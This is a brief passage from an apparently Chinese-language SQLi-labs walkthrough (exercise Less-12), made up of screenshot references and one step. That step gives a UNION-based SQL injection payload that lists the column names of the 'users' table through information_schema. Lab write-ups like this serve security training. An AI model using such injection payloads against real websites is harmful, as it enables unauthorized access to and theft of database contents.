 ![Less-12_5](./img/Less-12_5.PNG)



+ 注入如下语句爆破字段

~~~ shell
1") union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users' #
~~~

![Less-12_6](./img/Less-12_6.PNG)
